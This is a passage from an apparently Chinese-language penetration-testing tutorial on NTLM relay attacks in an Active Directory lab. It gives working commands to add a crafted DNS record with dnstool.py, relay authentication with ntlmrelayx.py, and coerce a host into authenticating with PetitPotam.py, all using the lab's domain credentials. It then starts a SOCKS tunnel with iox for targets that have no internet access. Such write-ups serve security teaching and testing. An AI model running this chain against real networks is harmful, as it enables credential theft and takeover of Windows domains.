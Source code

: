 
```
python dnstool.py -u luckytom.com\domainuser01 -p User01!@# -r badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.214.137 --action modify 192.168.214.134 --tcp
＃ 这里必须加 --tcp 参数将 UDP 封装在 TCP中进行 DNS 查询
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElNVnpeR4DRjEJx1cclcqfpLIjhKPFibOgbRAxfOAicJ0dzTiakbp63ibJeg/640?wx_fmt=png&from=appmsg "")  
  
  
3.   
开启 relay 监听，因为目标主机出网因此不必指定端口。  
  

```
python ntlmrelayx.py -t 192.168.214.135 -smb2support
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElekKQTcsMU955KME3t3Dy8WplDhoXsthxLxzyPoOtQwJNgvDNcWicr2w/640?wx_fmt=png&from=appmsg "")  
  
  
4.   
强制目标主机发起   
NTLM 认证  
。  
  

```
python PetitPotam.py -d luckytom.com -u domainuser01 -p User01!@# badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 192.168.214.135
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElgJHQ5okYIjsexJU50BaIiaYm0p9N2rEGSKrlPIHNf3eFAY5STnVq5lQ/640?wx_fmt=png&from=appmsg "")  
  
  
5.   
监听主机接收到 Hash。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElwLTveyMHJ117rPAtehPUibkchbE2DibCKNGZMtAzOWTuwwBkWDMuZ6oQ/640?wx_fmt=png&from=appmsg "")  
  
二. 目标主机不出网  
  
这种情况需要在入口机器上搭建一层隧道来实现流量的转发。  
  
1.   
开启   
socks  
 代理并配置本地   
proxifier  
 。  
  

```
iox.exe proxy -l 8080
```

  
  
2.   
向域控添加   
DNS 解析记录  
，此时需要将解析指向入口机器 IP   
192.168.214.130  
。  
  